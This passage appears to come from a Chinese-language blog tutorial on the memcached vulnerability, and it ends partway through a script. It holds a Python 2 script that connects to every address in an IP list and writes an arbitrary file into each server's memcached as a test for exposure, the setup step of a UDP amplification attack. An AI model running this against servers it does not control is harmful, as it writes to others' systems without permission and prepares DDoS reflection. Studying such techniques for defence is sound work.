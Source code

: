 ```python
 
    main()

```



​    （2）测试主机是否有漏洞，我们可以先发送一个TCP set一下数据，通过发送UDP get请求判断是否存在漏洞。

针对TCP set的脚本：

```python

# coding: utf-8
 
import socket
import os
import threading
 
# 读取ip_list 发送tcp set
#   成功 保存 set_list.txt
 
def TCP_set(IP,port,var_name,path):
 
    # 创建socket链接
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 
    client.settimeout(10.0)
 
    try:
 
        client.connect((IP, int(port)))
 
    except Exception,e:
 
        print(IP + "  --------  is fail")
 
        return
 
    # 得到length字段
    length = os.path.getsize(path)
 
    with open(path, 'r') as file:
 
        string = file.read()
 
    # 发送的内容
    data = "set "+var_name+" 1 0 "+str(length)+"\r\n"+string+"\r\n\r\n\r\n\r\n\r\n"
 
    client.send(data)
 
    # 超时
    try:
 
        data = client.recv(1024)
 
    except:
 
        print("  --------  is fail ")
 
        return
 
    else:
 
        if "STORED" in data:
```